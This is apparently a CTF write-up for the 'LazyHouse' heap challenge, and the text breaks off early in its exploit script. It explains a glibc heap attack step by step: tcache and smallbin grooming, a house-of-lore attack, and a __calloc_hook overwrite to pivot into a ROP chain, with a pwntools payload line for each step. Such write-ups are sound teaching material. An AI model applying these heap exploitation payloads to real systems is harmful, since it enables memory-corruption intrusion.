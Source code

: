 ![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/19b5dcd2-eec4-4a72-92b2-259eb10ed8e5.jpg)

Obtain the small bin in smallbins to clean the smallbins.
```
buy_house(2, 0x90, "\x22" * 0x90)
```
Obtain a size of 0x220 at the address of that 0x21 tcache bin.
```
buy_house(6, 0x217, "\x66" * 0x90)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/2687fd9b-ae5d-48b2-a032-fe3aa72643e6.jpg)

So, it is good for the check for smallbins list. <font color=red>**p->BK->prev == p**</font>.
We then get a smallbin chunk to avoid being merging with top_chunk.
```
buy_house(4, 0x217, "\x44" * 0x90)
```
A great trick. We calloc a (0x3a0 + 0x10) size chunk and free it into tcache to make the bitmap to be 0x100. It is really usefull for this challenge, since we can only use ```calloc```, we need to zero memory with the size of the fake chunk (0 is really not good).
```
buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
sell(6)
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/23c23f63-dc5b-45fc-934c-beefee67ed9d.jpg)

Then we make the second overflow to do house of lore attack, modify <font color=red>p->bk to fake_chunk</font>.
```
upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))
```
Which is still important is that we need to make <font color=red>p->bk->bk->prev == p->bk</font>.
Do you remember that we have a tcache bin of 0x30? Good.
We just need to set the **fd** of that chunk to be ```heap_base + 0x40```. The great trick of setting bitmap to 0x100 has aslo meet that requirement.
```
buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
```
At last, we just need to calloc the modified bin out and then we will get the chunk at **heap_base + 0x40**, which is the struct of tcache. We can change the header of the tcache bin list whose size is 0x220 to ```__calloc_hook``` and buy a big house (use malloc).

We can make ROP_CHAIN when we buy the house.

It is interesting that when we call ```__calloc_hook```, the register ```rbp``` is the same value as size.

So, we change ```__calloc_hook``` to a Gadget ```leave; ret``` to do ROP at the ROP_CHAIN by calloc(&heap_chunk + ?).

### EXP
```
from pwn import *

local=1
pc='./lazyhouse'
aslr=True
context.log_level="debug"
context.word_size = 64
context.os = "linux"
context.endian = "little"

libc=ELF('./libc.so.6')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './ld-linux-x86-64.so.2', "LD_LIBRARY_PATH":"./"})
```